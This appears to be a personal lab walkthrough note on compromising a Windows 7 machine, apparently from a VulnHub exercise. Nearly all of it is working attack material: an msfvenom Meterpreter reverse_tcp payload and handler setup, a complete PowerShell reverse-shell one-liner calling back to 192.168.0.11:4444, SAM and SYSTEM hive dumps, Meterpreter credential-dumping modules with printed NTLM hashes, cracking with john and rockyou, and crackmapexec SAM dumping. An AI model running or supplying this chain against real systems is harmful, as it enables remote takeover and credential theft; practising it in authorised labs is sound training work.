 ```yaml
---
{"tags":["metasploit","encrypt-decrpyt","walkthrought"],"dg-publish":true,"permalink":"/ctf/vulnhub/exploit-win7/","dgPassFrontmatter":true,"noteIcon":""}
---
```



```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.11 LPORT=4444 -f exe > reverse.exe 
```
```
msfconsole
```
```
use exploit/multi/handler
```
```
 set lhost 192.168.0.11
```
```
set payload windows/meterpreter/reverse_tcp
```
```
exploit
```

!!!BOOM!!!

![[Recording 20230919064714.webm]]



```reverse.bat
powershell -w hidden -nop -c $a='192.168.0.11';$b=4444;$c=New-Object system.net.sockets.tcpclient;$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$ob=New-Object System.Byte[] 65536;$eb=New-Object System.Byte[] 65536;$e=new-object System.Text.UTF8Encoding;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;$q=$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;$osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);$c.connect($a,$b);$s=$c.GetStream();while ($true) {    start-sleep -m 100;    if ($osread.IsCompleted -and $osread.Result -ne 0) {      $r=$os.BaseStream.EndRead($osread);      $s.Write($ob,0,$r);      $s.Flush();      $osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);    }    if ($esread.IsCompleted -and $esread.Result -ne 0) {      $r=$es.BaseStream.EndRead($esread);      $s.Write($eb,0,$r);      $s.Flush();      $esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);    }    if ($s.DataAvailable) {      $r=$s.Read($nb,0,$nb.Length);      if ($r -lt 1) {          break;      } else {          $str=$e.GetString($nb,0,$r);          $is.write($str);      }    }    if ($c.Connected -ne $true -or ($c.Client.Poll(1,[System.Net.Sockets.SelectMode]::SelectRead) -and $c.Client.Available -eq 0)) {        break;    }    if ($p.ExitCode -ne $null) {        break;    }}
```



https://www.tarasco.org/security/pwdump_7/
cmd ကို R-click >> Run as administrator နဲ့ ဖွင့်@ပီးေတာ့ cd  
command ကို သံုး@ပီး pwdump7 directory ထဲ ကို ဝင်ထားပါတယ်။ @ပီးေတာ့မှ  
PwDump7.exe

```
reg save HKLM\SAM C:\Users\ykh\Desktop\sam
```
```
reg save HKLM\SYSTEM C:\Users\ykh\Desktop\system
```
----
```
load powershell
```
```
locate Invoke-PowerDump.ps1
```
/usr/share/powershell-empire/empire/server/data/module_source/credentials/Invoke-PowerDump.ps1

meterpreter>powershell_import /usr/share/powershell-empire/empire/server/data/module_source/credentials/Invoke-PowerDump.ps1

```maybefial
powershell_execute Invoke-PowerDump
```
try another way
```
locate Get-PassHashe.ps1
```
apt install nishang

```
powershell_import /usr/share/nishang/Gather/Get-PassHashes.ps1
```
```
powershell_execute Get-PassHashes
```
```
meterpreter > powershell_execute Get-PassHashes
[+] Command execution completed:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
ykh:1000:aad3b435b51404eeaad3b435b51404ee:7244793fc0454da4a1ca80fae09118b2:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:94e54c5b9a75664330dde45320e6c5dc:::
```
```
search credential_collector
```
```
use 0
```
```
set SESSION 2
```


```
background
```
```
load kiwi
```
```
lsa_dump_sam
```










Collecting hashes...
Administrator:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
Guest:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
HomeGroupUser$:aad3b435b51404eeaad3b435b51404ee:94e54c5b9a75664330dde45320e6c5dc
ykh:aad3b435b51404eeaad3b435b51404ee:7244793fc0454da4a1ca80fae09118b2

nano winhashes
crack command
```shel
john --format=NT --wordlist=/usr/share/worlists/rockyou.txt winhashes
```


Test try to log in

```
crackmapexec smb 192.168.0.152 -u 'ykh' -p 'password' --sam
```
